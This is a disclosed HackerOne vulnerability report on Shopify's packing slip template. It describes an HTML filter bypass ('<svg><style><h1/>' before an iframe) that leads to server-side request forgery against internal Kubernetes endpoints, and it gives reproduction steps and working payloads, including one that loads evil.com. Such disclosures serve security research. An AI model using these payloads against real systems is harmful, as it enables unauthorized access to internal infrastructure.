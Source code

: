 # Bypassing HTML filter in "Packing Slip Template" Lead to SSRF to Internal Kubernetes Endpoints

## Report Details
- **Report ID**: 1115139
- **URL**: https://hackerone.com/reports/1115139
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-03-02T22:30:04.585Z
- **Disclosed**: 2021-12-02T20:38:55.344Z

## Reporter
- **Username**: cthulhufhtagn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
**Summary**

Shopify has a feature called `Print Packing Slip`, with this tool, users can easily print a packing slip after customers make an order. The generated packing slip can be downloaded as a PDF file.

Users can edit an `Edit packing slip template` to adjust with a shop design. 

However, there's have a filter in the PDF Generator like `<iframe>` tag is filtered or sanitize, but we can bypassing HTML filter inject malicious HTML code, and accessing the Internal Kubernetes Endpoints.

The initial test that I do is trying to add an `Iframe` to the `Packing Slip` template and expecting those `Iframe` will generate in the PDF file.

This tag was filtered so the HTML will not added to the PDF:

```
<iframe src="https://evil.com/" width=1001 height=1001>
```

But it can be bypassed by adding `<svg><style><h1/>` in the beginning of tag:

```
<svg><style><h1/><iframe src="https://evil.com/" width=1001 height=1001>
```

The Iframe was successfully loaded:

{F1215141}

Since this only accepting HTTPS protocol, I was unable to extract the Google Cloud Metadata. But I can hit the Kubernetes API which is using HTTPS protocol.

**Step to Reproduce**

1) Log in to the Shopify account
2) Navigate to `https://mystore.myshopify.com/admin/settings/packing_slip_template`
3) Add this HTML tag

```
<svg><style><h1/><iframe src="https://kubernetes.default.svc/info" width=1001 height=1001>
```

4) Preview Template and PDF will generated

{F1215151}

```
<svg><style><h1/><iframe src="https://kubernetes.default.svc/livez?verbose" width=1001 height=1001>
```

{F1215154}

## Impact

The attacker can perform an SSRF attack on the internal network.

## Attachments
- Screen_Shot_2021-03-03_at_05.23.53.png
- Screen_Shot_2021-03-03_at_05.27.34.png
- Screen_Shot_2021-03-03_at_05.28.56.png

